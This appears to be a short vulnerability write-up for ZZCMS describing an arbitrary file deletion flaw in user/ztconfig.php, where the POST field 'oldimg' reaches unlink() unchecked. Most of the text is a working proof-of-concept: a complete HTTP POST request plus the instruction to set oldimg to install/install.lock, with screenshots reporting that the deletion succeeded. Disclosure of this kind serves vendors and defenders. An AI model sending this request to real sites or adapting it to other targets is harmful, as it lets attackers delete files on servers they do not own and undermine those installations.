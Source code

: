 

## user/ztconfig.php


### Vulnerability：
![image](https://github.com/P0rZ9/ZZCMS/blob/master/5.jpg)

There is unlink($f) to delete any file by controlling the value of $f

### Control $f：
$oldbannerbg=isset($_POST["oldimg"])?$_POST["oldimg"]:'';


### Delete install/install.lock:
<pre><code>
POST /user/ztconfig.php?action=modify HTTP/1.1
Host: 127.0.0.1:85
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://127.0.0.1:85/user/ztconfig.php
Cookie: xxxxxx
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 232

swf=1.swf&bannerheight=0&comanestyle=center&comanecolor=%23FFFFFF&daohang%5B%5D=%E7%BD%91%E7%AB%99%E9%A6%96%E9%A1%B5&daohang%5B%5D=%E6%8B%9B%E5%95%86%E4%BF%A1%E6%81%AF&tongji=&baidu_map=&Submit2=+%E6%9B%B4%E6%96%B0%E8%AE%BE%E7%BD%AE
</code></pre>

add $oldimg=install/install.lock
![image](https://github.com/P0rZ9/ZZCMS/blob/master/6.jpg)


### delete install/install.lock successfully
![image](https://github.com/P0rZ9/ZZCMS/blob/master/7.jpg)

